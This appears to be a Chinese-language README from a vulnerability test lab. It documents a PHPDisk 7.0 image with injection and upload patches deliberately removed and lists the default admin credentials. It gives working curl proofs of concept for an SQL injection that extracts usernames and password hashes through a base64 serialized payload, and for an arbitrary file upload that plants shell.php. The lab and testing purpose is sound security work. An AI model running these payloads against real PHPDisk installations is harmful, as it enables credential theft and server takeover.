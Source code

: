 ## 环境说明

测试镜像

- src/phpdisk/7.0

  - 管理员账号

    admin/admin123

  - 后台地址

    http://127.0.0.1/admincp.php

  - 补丁

    在Build20140812的基础上，unpatch了ajax.php的注入过滤补丁和plugins/phpdisk_client/client_sub.php的上传补丁

## PHPDisk 7.0 sql注入漏洞

测试镜像

* src/phpdisk/7.0

影响版本

* PHPDisk <= 7.0

参考链接

* [phpdisk最新20140529版注入 无视防御](http://www.secye.com/Network/loudongbuding/3628.html)

Poc

使用任意账号登录，如demo账号：

http://172.17.0.2/account.php?action=demologin

建立任意文件夹，并记录访问时的folder_id，如

http://172.17.0.2/mydisk.php?item=files&action=index&folder_id=1

编辑gen_payload_sqli.php中的folderid，生成payload：

```shell
php gen_payload_sqli.php
```

使用生成的base64进行注入，成功会返回`true|`：

```shell
curl -X POST -d 'folder_id=1&data=YTo1OntzOjc6ImZpbGVfaWQiO2k6MTtzOjk6ImZpbGVfc2l6ZSI7aToxO3M6MTQ6ImZpbGVfZXh0ZW5zaW9uIjtzOjM6ImpwZyI7czo5OiJmaWxlX25hbWUiO3M6MToiYSI7czoxNjoiZmlsZV9kZXNjcmlwdGlvbiI7czoyMTY6IicsJzEzMScsJzE0MDE2NDMxODMnLCcxJywnMCcsJzAnLCcyJywnMScsJzE5Mi4xNjguMS4xMDQnKSwoMSwoc2VsZWN0IGNvbmNhdCh1c2VybmFtZSwnOicscGFzc3dvcmQpIGZyb20gcGRfdXNlcnMgd2hlcmUgdXNlcmlkPTEpLCAnaDlWSTBTS20nLCAncGhwJywnYXBwbGljYXRpb24vb2N0ZXQtc3RyZWFtJywnJywyMCwxNTMyMzUxMjY2LDEsMCwyLDIsMSwnMTcyLjE4LjEuMScpIyI7fQ==,1' "http://172.17.0.2/ajax.php?action=uploadCloud"
```

访问创建的文件夹，查看其中的文件得到注入结果



简易测试方法：

如果环境搭建后没有上传任何文件，可以直接使用curl post以上payload，再使用

```shell
curl http://172.17.0.2/viewfile.php?file_id=2 | grep "<title>.* - PHPDisk"
```

查看注入结果



## PHPDisk 7.0 文件上传漏洞

测试镜像

- src/phpdisk/7.0

影响版本

- PHPDisk <= 7.0

参考链接

- [phpdisk任意文件上传getshell](https://www.secpulse.com/archives/25008.html)

Poc

上传文件：

```shell
curl -X POST -H 'Content-Type: multipart/form-data;boundary=----WebKitFormBoundary5preDownN1n3hMj3' -H 'User-Agent: phpdisk-client'  -d '------WebKitFormBoundary5preDownN1n3hMj3
Content-Disposition: form-data; name="file_name"

aaa.gif
------WebKitFormBoundary5preDownN1n3hMj3
Content-Disposition: form-data; name="file1"; filename="shell.php"
Content-Type: application/x-php

<?php
phpinfo();
?>
------WebKitFormBoundary5preDownN1n3hMj3--' "http://172.17.0.2/plugins/phpdisk_client/client_sub.php?action=upload_file"
```

shell地址：

```
http://172.17.0.2/system/cache/shell.php
```

